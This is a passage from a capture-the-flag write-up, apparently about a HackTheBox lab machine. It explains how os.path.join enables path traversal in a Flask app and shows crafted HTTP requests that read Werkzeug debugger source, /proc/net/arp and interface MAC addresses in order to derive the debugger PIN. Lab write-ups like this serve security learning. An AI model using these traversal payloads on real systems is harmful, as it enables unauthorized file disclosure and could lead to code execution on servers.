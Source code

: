 It took me quite a while to understand why this worked. The `recursive_replace` function was removing the `../` from the passed path, so it was becoming `/etc/passwd`. Witch should not work if appended to `/app/public/uploads/`. After [some research](https://blog.sonarsource.com/10-unknown-security-pitfalls-for-python/), I found that `os.path.join` ignore any previous part if a part starts by a `/`. So if `path` is `/etc/passwd`, then the call `os.path.join(os.getcwd(), "public", "uploads", path)` will only return the value of `path`.


## Getting the PIN

I should probably have used the path traversal bug to rewrite one of the Python file and get a reverse shell. But instead, I tried to get the PIN for the Werkzeug Debugger console. I found [a post on HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug) that explained how to generate it, but it didn't work. The version of Flask was different, so there were probably small differences in how the PIN was generated.

To generate the PIN, I used the LFI to extract some information for the server.

First, I needed the code that is used by Flask to generate the PIN.

```http
GET /uploads/..//usr/local/lib/python3.10/site-packages/werkzeug/debug/__init__.py HTTP/1.1
Host: target.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://target.htb/upcloud
Upgrade-Insecure-Requests: 1
If-Modified-Since: Wed, 01 Jun 2022 23:13:10 GMT
If-None-Match: "1654125190.8242395-12-2550991558"
```

I took this file and simplified it, keeping only code needed to generate the PIN. Then I extracted the other values I needed.

To get the MAC address, I had to find the interface that was used.

```http
GET /uploads/..//..//..//..//proc/net/arp HTTP/1.1
Host: target.htb
...
```

```
IP address       HW type     Flags       HW address            Mask     Device
172.17.0.1       0x1         0x2         02:42:7e:78:0f:46     *        eth0
```

Then I could get the MAC for this interface.

```http
GET /uploads/..//sys/class/net/eth0/address HTTP/1.1
```

```
02:42:ac:11:00:09
```
